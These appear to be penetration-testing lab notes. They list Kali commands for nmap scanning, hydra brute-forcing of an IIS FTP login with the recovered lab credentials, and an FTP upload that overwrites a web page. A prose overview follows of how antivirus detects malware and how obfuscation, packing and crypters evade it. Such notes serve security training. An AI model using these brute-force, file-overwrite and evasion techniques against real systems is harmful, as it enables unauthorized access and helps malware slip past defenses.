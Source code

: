 #### Post scanning

```bash
kali@kali> nmap -sV 10.3.23.161
kali@kali> nmap 10.3.23.161 -T4 -PA -sV -sV -p 1-10000 -oX nmap_10k
kali@kali> service postgresql start && msfconsole
msf6> db_import nmap_10k
```

#### Microsoft IIS FTP

```bash
kali@kali> hydra -L /usr/share/wordlists/metasploit/unix_users.txt -P /usr/share/wordlists/metasploit/unix_passwords.txt 10.3.18.2 ftp
kali@kali> hydra -l vagrant -P /usr/share/wordlists/metasploit/unix_passwords.txt 10.3.18.2 ftp
kali@kali> ftp 10.3.18.2  # administrator:vagrant

ftp> get index.html
ftp> echo 'Hello world!' >> index.html
ftp> put index.html
```

The credentials are `administrator:vagrant` `vagrant:vagrant`.

### Linux black box

...

### AV evasion and obfuscation

Defense evasion consists of techniques that adversaries use to avoid detection throughout their compromise. Techniques used for defense evasion include uninstalling/disabling security software or obuscating/encrypting data and scripts. Adversaries also leverage and abuse trusted processes to hide and masquerade their malware.

#### AV detection methods

AV software will typically utilize signature, heuristic and behaviour based detection.

* **Signature based detection** : an AV signature is a unique sequence of bytes that uniquely identifies malware. As a result, you will have to ensure that your obfuscated exploit or payload doesn't match any known signature in the AV database. We can bypass signature-based detection by modifying the malware's byte sequence, therefore changing the signature.
* **Heuristic-based detection** : relies on rules or decisions to determine whether a binary is malicious. It also looks for specific patterns within the code or program calls.
* **Behavior based detection** : relies on identifying malware by monitoring it's behavior (user for newer strains of malware).

#### AV evasion techniques

**On-disk evasion techniques**

* Obfuscation : it refers to the process of concealing something important, valuable, or critical. Obfuscation reorganizes code in order to make it harder to analyze or RE.
* Encoding : encoding data is a process involving changing data into a new format using a scheme. Encoding is a reversible process; data can be encoded to a new format decoded to its original format.
* Packing : generate executable with the new binary structure with a smaller size and therefore provides the payload with a new signature.
* Crypters : encrypts code or payloads and decrypts the ecnrypted code in memory. The decryption key/function is usually stored in a stub.
